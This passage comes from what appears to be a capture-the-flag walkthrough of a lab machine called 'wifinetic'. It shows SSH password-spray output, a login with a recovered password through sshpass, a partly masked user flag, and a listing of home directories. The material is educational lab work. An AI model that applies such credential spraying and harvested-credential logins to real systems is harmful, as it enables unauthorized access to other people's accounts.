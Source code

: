     SSH         10.10.11.247    22     10.10.11.247     [-] ubus:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [+] netadmin:VeRyUniUqWiFIPasswrd1!



### Shell

I'm able to connect with that username / password:



    oxdf@hacky$ sshpass -p 'VeRyUniUqWiFIPasswrd1!' ssh netadmin@10.10.11.247
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)
    ...[snip]...
    netadmin@wifinetic:~$ 



And read the user flag:



    netadmin@wifinetic:~$ cat user.txt
    e5540a0a************************



## Shell as root

### Enumeration

#### Filesystem

#### Home Directories

The netadmin user's home directory is basically empty:



    netadmin@wifinetic:~$ ls -la
    total 28
    drwxr-xr-x  3 netadmin netadmin 4096 Sep 11 16:40 .
    drwxr-xr-x 24 root     root     4096 Sep 11 16:58 ..
    lrwxrwxrwx  1 root     root        9 Sep 11 16:08 .bash_history -> /dev/null
    -rw-r--r--  1 netadmin netadmin  220 Feb 25  2020 .bash_logout
    -rw-r--r--  1 netadmin netadmin 3771 Feb 25  2020 .bashrc
    drwx------  2 netadmin netadmin 4096 Sep 11 16:40 .cache
    -rw-r--r--  1 netadmin netadmin  807 Feb 25  2020 .profile
    -rw-r-----  1 root     netadmin   32 Sep 13 11:01 user.txt



There are a bunch of other users with home directories in `/home`:



    netadmin@wifinetic:/home$ ls
    ayoung33   dwright27   janderson42  lturner56  mrobinson78  owalker17  sjohnson88  tclark84
    bwhite3    eroberts25  jletap77     mhughes12  netadmin     pharris47  swood93
    dmorgan99  jallen10    kgarcia22    mickhat    nlee61       rturner45  tcarter90

